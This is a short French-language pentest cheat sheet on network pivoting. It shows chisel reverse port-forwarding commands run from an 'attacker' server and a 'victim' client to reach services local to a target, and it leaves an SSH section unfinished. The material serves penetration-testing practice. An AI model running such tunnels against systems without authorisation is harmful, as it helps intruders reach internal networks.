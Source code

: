 # Proxychain

> Pivoter dans le réseau via la machine hôte.
>
> Permet de faciliter les tests (e.g. accès à l'interface graphique pour un service web) et de donner accès à ses propres outils (si pas présent sur la cible par exemple).



### 1. Chisel

- **Port forwarding (accéder à un service ne tournant qu'en local sur une machine cible) avec l'exécutable [chisel][1] **:

  - Hôte :

    ```bash
    $ ./chisel server -p 9999 --reverse [open]
    ```

  - Cible :

    ```bash
    $ ./chisel client [IP_HOTE]:9999 R:127.0.0.1:9998:[IP_A_RENDRE_ACCESSIBLE]:[PORT_A_RENDRE_ACCESSIBLE]
    ```

    Explication  :

    - Le serveur (*machine de l'attaquant*) ouvre un port 
    - Le client (*machine victime*) s'y connecte
    - Le client créer une règle de port forwarding vers l'ip remote (ici, il dit au serveur qu'il est possible d'accéder à remote_ip:remote_port en requêtant sur 127.0.0.1:9998)



### 2. SSH

**TODO**



## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM